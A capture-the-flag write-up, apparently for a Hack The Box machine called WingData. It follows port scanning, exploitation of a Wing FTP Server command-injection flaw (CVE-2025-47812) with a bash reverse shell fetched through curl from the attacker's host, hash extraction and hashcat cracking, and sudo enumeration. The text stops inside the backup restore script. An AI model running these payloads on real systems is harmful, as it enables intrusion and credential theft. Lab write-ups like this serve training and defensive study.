

## Table of Contents

- [Summary](#Summary)
- [Reconnaissance](#Reconnaissance)
    - [Port Scanning](#Port-Scanning)
    - [Enumeration of Port 80/TCP](#Enumeration-of-Port-80TCP)
    - [Virtual Host (VHOST) Enumeration](#Virtual-Host-VHOST-Enumeration)
- [Initial Access](#Initial-Access)
    - [CVE-2025-47812: Wing FTP Server Unauthenticated Remote Code Execution (RCE)](#CVE-2025-47812-Wing-FTP-Server-Unauthenticated-Remote-Code-Execution-RCE)
- [Enumeration (wingftp)](#Enumeration-wingftp)
- [Privilege Escalation to wacky](#Privilege-Escalation-to-wacky)
    - [Cracking the Hash using hashcat](#Cracking-the-Hash-using-hashcat)
- [user.txt](#usertxt)
- [Enumeration (wacky)](#Enumeration-wacky)
- [Privilege Escalation to root](#Privilege-Escalation-to-root)
    - [CVE-2024-4030: Python Tarfile Realpath Overflow](#CVE-2024-4030-Python-Tarfile-Realpath-Overflow)
- [root.txt](#roottxt)

## Summary

The box starts with `SSH` on port `22/TCP` and `HTTP` on port `80/TCP`. The web service runs `Apache` serving a landing page for `WingData Solutions`. Examining the page source reveals a subdomain `ftp.wingdata.htb` hosting a `Wing FTP Server` login interface.

`Wing FTP Server (Free Edition)` is vulnerable to `CVE-2025-47812` which is an `Unauthenticated Remote Code Execution` (`RCE`) vulnerability through command injection. Exploiting this vulnerability using a proof of concept script grants initial access as the `wingftp` user.

Enumeration of the `Wing FTP Server` configuration reveals user account settings stored in `XML` files including password hashes. The hash for the `wacky` user is salted with `WingFTP` and uses `SHA256`. Cracking the hash using `hashcat` yields the password allowing `SSH` access as `wacky` and retrieval of `user.txt`.

For `Privilege Escalation` the `wacky` user has `sudo` privileges to execute a `Python` backup restoration script. The script is vulnerable to `CVE-2024-4030` which is a `Python Tarfile Realpath Overflow` vulnerability. By crafting a malicious `tar` archive with deeply nested symlinks that exceed `PATH_MAX` arbitrary file writes can be achieved. Creating a `tar` archive that writes an `SSH` public key to `/root/.ssh/authorized_keys` through symlink traversal grants root access via `SSH`.

## Reconnaissance

### Port Scanning

We began with our initial port scan using `Nmap` which revealed `SSH` on port `22/TCP` and `HTTP` on port `80/TCP`.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -p- 10.129.6.73 --min-rate 10000        
Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-14 20:12 +0100
Nmap scan report for wingdata.htb (10.129.6.73)
Host is up (0.022s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 13.42 seconds
```

We performed a service version scan on the discovered ports.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 10.129.6.73         
Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-14 20:12 +0100
Nmap scan report for wingdata.htb (10.129.6.73)
Host is up (0.027s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u7 (protocol 2.0)
| ssh-hostkey: 
|   256 a1:fa:95:8b:d7:56:03:85:e4:45:c9:c7:1e:ba:28:3b (ECDSA)
|_  256 9c:ba:21:1a:97:2f:3a:64:73:c1:4c:1d:ce:65:7a:2f (ED25519)
80/tcp open  http    Apache httpd 2.4.66
|_http-title: WingData Solutions
|_http-server-header: Apache/2.4.66 (Debian)
Service Info: Host: localhost; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.51 seconds
```

The scan revealed a hostname `wingdata.htb` which we added to our `/etc/hosts` file.

```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.6.73     wingdata.htb
```

### Enumeration of Port 80/TCP

We accessed the web service and used `whatweb` to identify the technologies in use.

- [http://wingdata.htb/](http://wingdata.htb/)

```shell
┌──(kali㉿kali)-[~]
└─$ whatweb http://wingdata.htb/
http://wingdata.htb/ [200 OK] Apache[2.4.66], Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.66 (Debian)], IP[10.129.6.73], JQuery, Script, Title[WingData Solutions]
```

The website displayed a landing page for `WingData Solutions`.



Checking the page source revealed a link to a subdomain.

```shell
┌──(kali㉿kali)-[~]
└─$ curl http://wingdata.htb/ | grep ftp
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0      0   0      0   0      0      0      0  --:--:-- --:--:-- --:--:--      0              <li><div class="main-red-button"><a href="http://ftp.wingdata.htb/">Client Portal</a></div></li> 
100  12492 100  12492   0      0 236.6k      0  --:--:-- --:--:-- --:--:--      0
```

We added the subdomain `ftp.wingdata.htb` to our `/etc/hosts` file as well.

```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.6.73     wingdata.htb
10.129.6.73     ftp.wingdata.htb
```

### Virtual Host (VHOST) Enumeration

Accessing the subdomain revealed a `Wing FTP Server` login interface.

- [http://ftp.wingdata.htb/login.html?lang=english](http://ftp.wingdata.htb/login.html?lang=english)

```shell
┌──(kali㉿kali)-[~]
└─$ whatweb http://ftp.wingdata.htb/                       
http://ftp.wingdata.htb/ [200 OK] Country[RESERVED][ZZ], HTTPServer[Wing FTP Server(Free Edition)], IP[10.129.6.73], Script, Strict-Transport-Security[max-age=31536000; includeSubDomains], UncommonHeaders[x-content-type-options], Wing-FTP-Server[Free Edition], X-Frame-Options[SAMEORIGIN], X-UA-Compatible[IE=edge], X-XSS-Protection[1; mode=block]
```


## Initial Access

### CVE-2025-47812: Wing FTP Server Unauthenticated Remote Code Execution (RCE)

Quick research revealed that `Wing FTP Server` is vulnerable to `CVE-2025-47812` aka `Wing FTP Server Unauthenticated Remote Code Execution (RCE)`.

- [https://nvd.nist.gov/vuln/detail/CVE-2025-47812](https://nvd.nist.gov/vuln/detail/CVE-2025-47812)
- [https://github.com/4m3rr0r/CVE-2025-47812-poc](https://github.com/4m3rr0r/CVE-2025-47812-poc)

First up we prepared a `reverse shell payload` on our attack machine.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/WingData/serve]
└─$ cat x 
#!/bin/bash
bash -c '/bin/bash -i >& /dev/tcp/10.10.16.154/9001 0>&1'
```

Then we started a `Python HTTP Server` to serve the payload.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/WingData/serve]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

With the server running our next move was executing the exploit to trigger command injection.

```shell
┌──(kali㉿kali)-[/media/…/Machines/WingData/files/CVE-2025-47812-poc]
└─$ python3 CVE-2025-47812.py -u http://ftp.wingdata.htb -U anonymous -P "" -c "curl http://10.10.16.154/x|sh"

[*] Testing target: http://ftp.wingdata.htb
[+] Sending POST request to http://ftp.wingdata.htb/loginok.html with command: 'curl http://10.10.16.154/x | bash' and username: 'anonymous'
[+] UID extracted: 803cdde1f9136777a9da792efa6a91fdf528764d624db129b32c21fbca0cb8d6
[+] Sending GET request to http://ftp.wingdata.htb/dir.html with UID: 803cdde1f9136777a9da792efa6a91fdf528764d624db129b32c21fbca0cb8d6
```

Almost immediately a reverse shell connection came through.

```shell
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.16.154] from (UNKNOWN) [10.129.6.73] 58924
bash: cannot set terminal process group (3518): Inappropriate ioctl for device
bash: no job control in this shell
wingftp@wingdata:/opt/wftpserver$
```

As usual we upgraded the shell to a fully interactive TTY.

```shell
wingftp@wingdata:/opt/wftpserver$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<ver$ python3 -c 'import pty;pty.spawn("/bin/bash")'
wingftp@wingdata:/opt/wftpserver$ ^Z
zsh: suspended  nc -lnvp 9001
                                                                                                                                                                                                                                                                                                                                                                                                                                          
┌──(kali㉿kali)-[~]
└─$ stty raw -echo;fg
[1]  + continued  nc -lnvp 9001

wingftp@wingdata:/opt/wftpserver$ 
wingftp@wingdata:/opt/wftpserver$ export XTERM=xterm
wingftp@wingdata:/opt/wftpserver$
```

## Enumeration (wingftp)

Now it was time for the standard enumeration routine starting with basic user context checks.

```shell
wingftp@wingdata:/opt/wftpserver$ id
uid=1000(wingftp) gid=1000(wingftp) groups=1000(wingftp),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev)
```

Looking through `/etc/passwd` revealed a potential target user.

```shell
wingftp@wingdata:/opt/wftpserver$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:107::/nonexistent:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
wingftp:x:1000:1000:WingFTP Daemon User,,,:/opt/wingftp:/bin/bash
wacky:x:1001:1001::/home/wacky:/bin/bash
_laurel:x:999:996::/var/log/laurel:/bin/false
```

An interesting account jumped out: `wacky`.

| Username |
| -------- |
| wacky    |

Next up we checked what services were listening locally.

```shell
wingftp@wingdata:/opt/wftpserver$ ss -tulpn
Netid State  Recv-Q Send-Q Local Address:Port  Peer Address:PortProcess                                                                                                                                                                                                      
udp   UNCONN 0      0            0.0.0.0:68         0.0.0.0:*                                                                                                                                                                                                                
tcp   LISTEN 0      128          0.0.0.0:46691      0.0.0.0:*    users:(("ss",pid=3700,fd=10),("bash",pid=3691,fd=10),("python3",pid=3690,fd=10),("bash",pid=3688,fd=10),("bash",pid=3687,fd=10),("bash",pid=3686,fd=10),("sh",pid=3684,fd=10),("wftpserver",pid=3518,fd=10))
tcp   LISTEN 0      128          0.0.0.0:5466       0.0.0.0:*    users:(("ss",pid=3700,fd=8),("bash",pid=3691,fd=8),("python3",pid=3690,fd=8),("bash",pid=3688,fd=8),("bash",pid=3687,fd=8),("bash",pid=3686,fd=8),("sh",pid=3684,fd=8),("wftpserver",pid=3518,fd=8))        
tcp   LISTEN 0      128        127.0.0.1:8080       0.0.0.0:*    users:(("ss",pid=3700,fd=11),("bash",pid=3691,fd=11),("python3",pid=3690,fd=11),("bash",pid=3688,fd=11),("bash",pid=3687,fd=11),("bash",pid=3686,fd=11),("sh",pid=3684,fd=11),("wftpserver",pid=3518,fd=11))
tcp   LISTEN 0      511          0.0.0.0:80         0.0.0.0:*                                                                                                                                                                                                                
tcp   LISTEN 0      128          0.0.0.0:22         0.0.0.0:*                                                                                                                                                                                                                
tcp   LISTEN 0      128             [::]:5466          [::]:*    users:(("ss",pid=3700,fd=7),("bash",pid=3691,fd=7),("python3",pid=3690,fd=7),("bash",pid=3688,fd=7),("bash",pid=3687,fd=7),("bash",pid=3686,fd=7),("sh",pid=3684,fd=7),("wftpserver",pid=3518,fd=7))        
tcp   LISTEN 0      128             [::]:22            [::]:*
```

We performed a quick test to see if we could access anything useful on port `5466/TCP`. It looked like an `admin interface` which could have been a potential vector for `privilege escalation`. Since we didn't had an easy way to forward the port, we moved on.

```shell
wingftp@wingdata:/opt$ curl localhost:5466
<meta http-equiv='Content-Type' content='text/html; charset=utf-8'><script>top.location='admin_login.html';</script>

<noscript><center><H2>The administration interface requires that you have Javascript enabled on your browser. <br>If you're not sure how to do this, <a href='help_javascript.htm'>click here.</a> </H2></center></noscript>
```

While examining the `/opt` directory it revealed some interesting directories.

```shell
wingftp@wingdata:/opt$ ls -la
total 16
drwxr-xr-x  4 root    root    4096 Feb  9 08:19 .
drwxr-xr-x 18 root    root    4096 Feb  9 08:19 ..
drwxr-x---  4 root    wacky   4096 Jan 12 08:43 backup_clients
drwxr-x---  9 wingftp wingftp 4096 Feb 14 14:09 wftpserver
```

We only had access to the `wftpserver` directory with our current user.

```shell
wingftp@wingdata:/opt/wftpserver$ ls -la
total 26504
drwxr-x---  9 wingftp wingftp     4096 Feb 14 14:09 .
drwxr-xr-x  4 root    root        4096 Feb  9 08:19 ..
drwxr-x---  4 wingftp wingftp     4096 Feb 14 14:09 Data
-rwxr-x---  1 wingftp wingftp     4834 Jul 31  2018 License.txt
drwxr-x---  5 wingftp wingftp     4096 Feb 14 14:18 Log
drwxr-x---  2 wingftp wingftp     4096 Feb  9 08:19 lua
-rw-r--r--  1 wingftp wingftp        5 Feb 14 14:09 pid-wftpserver.pid
-rwxr-x---  1 wingftp wingftp     1434 Sep 13  2020 README
drwxr-x---  2 wingftp wingftp     4096 Feb 14 14:18 session
drwxr-x---  2 wingftp wingftp     4096 Feb  9 08:19 session_admin
-rwxr-x---  1 wingftp wingftp   115258 Mar 26  2025 version.txt
drwxr-x--- 10 wingftp wingftp    12288 Feb  9 08:19 webadmin
drwxr-x--- 13 wingftp wingftp     4096 Feb  9 08:19 webclient
-rwxr-x---  1 wingftp wingftp  4649509 Sep 14  2021 wftpconsole
-rwxr-x---  1 wingftp wingftp     3272 Nov  2 11:11 wftp_default_ssh.key
-rwxr-x---  1 wingftp wingftp     1342 Nov 22  2017 wftp_default_ssl.crt
-rwxr-x---  1 wingftp wingftp     1675 Nov 22  2017 wftp_default_ssl.key
-rwxr-x---  1 wingftp wingftp 22283682 Mar 26  2025 wftpserver
```

The `Data` directory contained configuration and user data.

```shell
wingftp@wingdata:/opt/wftpserver/Data$ ls -la
total 40
drwxr-x--- 4 wingftp wingftp  4096 Feb 14 14:09 .
drwxr-x--- 9 wingftp wingftp  4096 Feb 14 14:09 ..
drwxr-x--- 4 wingftp wingftp  4096 Feb  9 08:19 1
drwxr-x--- 2 wingftp wingftp  4096 Feb 14 14:09 _ADMINISTRATOR
-rw------- 1 wingftp wingftp 11264 Nov  2 11:11 bookmark_db
-rwxr-x--- 1 wingftp wingftp  2554 Nov  2 16:23 settings.xml
-rwxr-x--- 1 wingftp wingftp   241 Nov  2 11:12 ssh_host_ecdsa_key
-rw-rw-rw- 1 wingftp wingftp  3272 Nov  2 11:52 ssh_host_key
```

Examining the domain `settings.xml` file revealed important configuration details including the `password salting string`.

```shell
wingftp@wingdata:/opt/wftpserver/Data/1$ cat settings.xml 
<?xml version="1.0" ?>
<DOMAIN_OPTION Description="Wing FTP Server Domain settings">
    <Domain_Max_Session>0</Domain_Max_Session>
    <Domain_Per_Ip_Max_Session>0</Domain_Per_Ip_Max_Session>
    <Per_Session_Max_Download_Speed>0</Per_Session_Max_Download_Speed>
    <Per_Session_Max_Upload_Speed>0</Per_Session_Max_Upload_Speed>
    <Domain_Max_Download_Speed>0</Domain_Max_Download_Speed>
    <Domain_Max_Upload_Speed>0</Domain_Max_Upload_Speed>
    <Per_User_Max_Download_Speed>0</Per_User_Max_Download_Speed>
    <Per_User_Max_Upload_Speed>0</Per_User_Max_Upload_Speed>
    <Passive_Type>0</Passive_Type>
    <Pasv_Ip_Refresh_Interval>60</Pasv_Ip_Refresh_Interval>
    <Fixed_Ip></Fixed_Ip>
    <Web_Ip>http://ip.wftpserver.com/w/getIP.php</Web_Ip>
    <DNS_Ip></DNS_Ip>
    <Enable_UPnP_For_Passive_Ports>0</Enable_UPnP_For_Passive_Ports>
    <Min_Passive_Port>1024</Min_Passive_Port>
    <Max_Passive_Port>1124</Max_Passive_Port>
    <Transfer_Buffer_Size>65535</Transfer_Buffer_Size>
    <Userdata_Access_Style>1</Userdata_Access_Style>
    <MYSQL_Address>localhost</MYSQL_Address>
    <MYSQL_Port>3306</MYSQL_Port>
    <MYSQL_Username>root</MYSQL_Username>
    <MYSQL_Password></MYSQL_Password>
    <MYSQL_DatabaseName>wftp_database</MYSQL_DatabaseName>
    <MYSQL_UnixSocket></MYSQL_UnixSocket>
    <ODBC_DSN_Address></ODBC_DSN_Address>
    <ODBC_DSN_Username></ODBC_DSN_Username>
    <ODBC_DSN_Password></ODBC_DSN_Password>

<--- CUT FOR BREVITY --->

    <EnablePasswordSalting>1</EnablePasswordSalting>
    <SaltingString>WingFTP</SaltingString>
    <Enable_Log_Millisecond>0</Enable_Log_Millisecond>
    <LDAP_Mapping_CaseInsensitive>0</LDAP_Mapping_CaseInsensitive>
    <LDAP_Timeout>10</LDAP_Timeout>
    <Keep_Anonymous_Weblink>0</Keep_Anonymous_Weblink>

<--- CUT FOR BREVITY --->

</DOMAIN_OPTION>
```

| Salt    |
| ------- |
| WingFTP |

By checking the users directory we found several user account files.

```shell
wingftp@wingdata:/opt/wftpserver/Data/1/users$ ls -la
total 28
drwxr-x--- 2 wingftp wingftp 4096 Feb 14 14:19 .
drwxr-x--- 4 wingftp wingftp 4096 Feb  9 08:19 ..
-rwxr-x--- 1 wingftp wingftp 2842 Feb 14 14:19 anonymous.xml
-rwxr-x--- 1 wingftp wingftp 2846 Nov  2 11:13 john.xml
-rw-rw-rw- 1 wingftp wingftp 2847 Nov  2 12:05 maria.xml
-rw-rw-rw- 1 wingftp wingftp 2847 Nov  2 12:02 steve.xml
-rw-rw-rw- 1 wingftp wingftp 2856 Nov  2 12:28 wacky.xml
```

Knowing that the user `wacky` existed on the box, we examined the `wacky.xml` file which gave us the `password hash` for the corresponding user.

```shell
wingftp@wingdata:/opt/wftpserver/Data/1/users$ cat wacky.xml 
<?xml version="1.0" ?>
<USER_ACCOUNTS Description="Wing FTP Server User Accounts">
    <USER>
        <UserName>wacky</UserName>
        <EnableAccount>1</EnableAccount>
        <EnablePassword>1</EnablePassword>
        <Password>32940defd3c3ef70a2dd44a5301ff984c4742f0baae76ff5b8783994f8a503ca</Password>
        <ProtocolType>63</ProtocolType>
        <EnableExpire>0</EnableExpire>
        <ExpireTime>2025-12-02 12:02:46</ExpireTime>
        <MaxDownloadSpeedPerSession>0</MaxDownloadSpeedPerSession>
        <MaxUploadSpeedPerSession>0</MaxUploadSpeedPerSession>
        <MaxDownloadSpeedPerUser>0</MaxDownloadSpeedPerUser>
        <MaxUploadSpeedPerUser>0</MaxUploadSpeedPerUser>
        <SessionNoCommandTimeOut>5</SessionNoCommandTimeOut>
        <SessionNoTransferTimeOut>5</SessionNoTransferTimeOut>
        <MaxConnection>0</MaxConnection>
        <ConnectionPerIp>0</ConnectionPerIp>
        <PasswordLength>0</PasswordLength>
        <ShowHiddenFile>0</ShowHiddenFile>
        <CanChangePassword>0</CanChangePassword>
        <CanSendMessageToServer>0</CanSendMessageToServer>
        <EnableSSHPublicKeyAuth>0</EnableSSHPublicKeyAuth>
        <SSHPublicKeyPath></SSHPublicKeyPath>
        <SSHAuthMethod>0</SSHAuthMethod>
        <EnableWeblink>1</EnableWeblink>
        <EnableUplink>1</EnableUplink>
        <EnableTwoFactor>0</EnableTwoFactor>
        <TwoFactorCode></TwoFactorCode>
        <ExtraInfo></ExtraInfo>
        <CurrentCredit>0</CurrentCredit>
        <RatioDownload>1</RatioDownload>
        <RatioUpload>1</RatioUpload>
        <RatioCountMethod>0</RatioCountMethod>
        <EnableRatio>0</EnableRatio>
        <MaxQuota>0</MaxQuota>
        <CurrentQuota>0</CurrentQuota>
        <EnableQuota>0</EnableQuota>
        <NotesName></NotesName>
        <NotesAddress></NotesAddress>
        <NotesZipCode></NotesZipCode>
        <NotesPhone></NotesPhone>
        <NotesFax></NotesFax>
        <NotesEmail></NotesEmail>
        <NotesMemo></NotesMemo>
        <EnableUploadLimit>0</EnableUploadLimit>
        <CurLimitUploadSize>0</CurLimitUploadSize>
        <MaxLimitUploadSize>0</MaxLimitUploadSize>
        <EnableDownloadLimit>0</EnableDownloadLimit>
        <CurLimitDownloadLimit>0</CurLimitDownloadLimit>
        <MaxLimitDownloadLimit>0</MaxLimitDownloadLimit>
        <LimitResetType>0</LimitResetType>
        <LimitResetTime>1762103089</LimitResetTime>
        <TotalReceivedBytes>0</TotalReceivedBytes>
        <TotalSentBytes>0</TotalSentBytes>
        <LoginCount>2</LoginCount>
        <FileDownload>0</FileDownload>
        <FileUpload>0</FileUpload>
        <FailedDownload>0</FailedDownload>
        <FailedUpload>0</FailedUpload>
        <LastLoginIp>127.0.0.1</LastLoginIp>
        <LastLoginTime>2025-11-02 12:28:52</LastLoginTime>
        <EnableSchedule>0</EnableSchedule>
    </USER>
</USER_ACCOUNTS>
```

## Privilege Escalation to wacky

### Cracking the Hash using hashcat

Based on the configuration file revealing the salt `WingFTP` and the hash format we researched on `hashcat` modes.

- [https://hashcat.net/wiki/doku.php?id=example_hashes](https://hashcat.net/wiki/doku.php?id=example_hashes)

The hash format matched `sha256($pass.$salt)` which corresponds to `hashcat` mode `1410`.

| Hash-Mode | Hash-Name           | Example                                                                   |
| --------- | ------------------- | ------------------------------------------------------------------------- |
| 1410      | sha256($pass.$salt) | c73d08de890479518ed60cf670d17faa26a4a71f995c1dcc978165399401a6c4:53743528 |

We saved the `hash` with `salt` locally to crack it using `hashcat`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/WingData/files]
└─$ cat admin.hash 
32940defd3c3ef70a2dd44a5301ff984c4742f0baae76ff5b8783994f8a503ca:WingFTP
```

Now it was time to throw `hashcat` at it with the trusty `rockyou.txt` wordlist.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/WingData/files]
└─$ hashcat -m 1410 -a 0 admin.hash /usr/share/wordlists/rockyou.txt                                                                
hashcat (v7.1.2) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================================
* Device #01: cpu-haswell-Intel(R) Core(TM) i9-10900 CPU @ 2.80GHz, 2949/5898 MB (1024 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
Minimum salt length supported by kernel: 0
Maximum salt length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory allocated for this attack: 513 MB (2285 MB free)

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921506
* Keyspace..: 14344384

32940defd3c3ef70a2dd44a5301ff984c4742f0baae76ff5b8783994f8a503ca:WingFTP:!#7Blushing^*Bride5
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1410 (sha256($pass.$salt))
Hash.Target......: 32940defd3c3ef70a2dd44a5301ff984c4742f0baae76ff5b87...ingFTP
Time.Started.....: Sat Feb 14 20:58:31 2026 (4 secs)
Time.Estimated...: Sat Feb 14 20:58:35 2026 (0 secs)
Kernel.Feature...: Pure Kernel (password length 0-256 bytes)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#01........:  3457.3 kH/s (0.52ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 14344192/14344384 (100.00%)
Rejected.........: 0/14344192 (0.00%)
Restore.Point....: 14340096/14344384 (99.97%)
Restore.Sub.#01..: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#01...: !caroline ->  kristenanne
Hardware.Mon.#01.: Util: 55%

Started: Sat Feb 14 20:58:29 2026
Stopped: Sat Feb 14 20:58:37 2026
```

The password `!#7Blushing^*Bride5` was successfully retrieved after a few seconds.

| Password            |
| ------------------- |
| !#7Blushing^*Bride5 |

This allowed us to login via `SSH` as the user `wacky`.

```shell
┌──(kali㉿kali)-[~]
└─$ ssh wacky@10.129.6.73
The authenticity of host '10.129.6.73 (10.129.6.73)' can't be established.
ED25519 key fingerprint is: SHA256:JacnW6dsEmtRtwu2ULpY/CK8n/8M9tU+6pQhjBG3a4w
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes                
Warning: Permanently added '10.129.6.73' (ED25519) to the list of known hosts.
wacky@10.129.6.73's password: 
Linux wingdata 6.1.0-42-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.159-1 (2025-12-30) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Feb 14 15:01:39 2026 from 10.10.16.154
wacky@wingdata:~$
```

## user.txt

```shell
wacky@wingdata:~$ cat user.txt 
1f97b29f57cb276392df6088d1d984bf
```

## Enumeration (wacky)

And once more we performed our basic enumeration but this time for the `wacky` user.

```shell
wacky@wingdata:~$ id
uid=1001(wacky) gid=1001(wacky) groups=1001(wacky)
```

While checking `sudo` privileges, we figured out that the user was allowed to run an interesting script within `/opt/backup_clients`.

```shell
wacky@wingdata:~$ sudo -l
Matching Defaults entries for wacky on wingdata:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User wacky may run the following commands on wingdata:
    (root) NOPASSWD: /usr/local/bin/python3 /opt/backup_clients/restore_backup_clients.py *
```

Examining the script revealed its functionality. It was a script to perform simple backup tasks.

```shell
wacky@wingdata:~$ cat /opt/backup_clients/restore_backup_clients.py
#!/usr/bin/env python3
import tarfile
import os
import sys
import re
import argparse

BACKUP_BASE_DIR = "/opt/backup_clients/backups"
STAGING_BASE = "/opt/backup_clients/restored_backups"

def validate_backup_name(filename):
    if not re.fullmatch(r"^backup_\d+\.tar$", filename):
        return False
    client_id = filename.split('_')[1].rstrip('.tar')
    return client_id.isdigit() and client_id != "0"

def validate_restore_tag(tag):
    return bool(re.fullmatch(r"^[a-zA-Z0-9_]{1,24}$", tag))

def main():
    parser = argparse.ArgumentParser(
        description="Restore client configuration from a validated backup tarball.",
        epilog="Example: sudo %(prog)s -b backup_1001.tar -r restore_john"
    )
    parser.add_argument(
        "-b", "--backup",
        required=True,
        help="Backup filename (must be in /home/wacky/backup_clients/ and match backup_<client_id>.tar, "
             "where <client_id> is a positive integer, e.g., backup_1001.tar)"
    )
    parser.add_argument(
        "-r", "--restore-dir",
        required=True,
        help="Staging directory name for the restore operation. "
             "Must follow the format: restore_<client_user> (e.g., restore_john). "
             "Only alphanumeric characters and underscores are allowed in the <client_user> part (1–24 characters)."
    )

    args = parser.parse_args()

    if not validate_backup_name(args.backup):
        print("[!] Invalid backup name. Expected format: backup_<client_id>.tar (e.g., backup_1001.tar)", file=sys.stderr)
        sys.exit(1)

    backup_path = os.path.join(BACKUP_BASE_DIR, args.backup)
    if not os.path.isfile(backup_path):
        print(f"[!] Backup file not found: {backup_path}", file=sys.stderr)
        sys.exit(1)

    if not args.restore_dir.startswith("restore_"):
        print("[!] --restore-dir must start with 'restore_'", file=sys.stderr)
        sys.exit(1)

    tag = args.restore_dir[8:]
    if not tag:
        print("[!] --restore-dir must include a non-empty tag after 'restore_'", file=sys.stderr)
        sys.exit(1)

    if not validate_restore_tag(tag):
        print("[!] Restore tag must be 1–24 characters long and contain only letters, digits, or underscores", file=sys.stderr)
        sys.exit(1)

    staging_dir = os.path.join(STAGING_BASE, args.restore_dir)
    print(f"[+] Backup: {args.backup}")
    print(f"[+] Staging directory: {staging_dir}")

    os.makedirs(staging_dir, exist_ok=True)

    try:
        with tarfile.open(backup_path, "r") as tar:
            tar.extractall(path=staging_dir, filter="data")
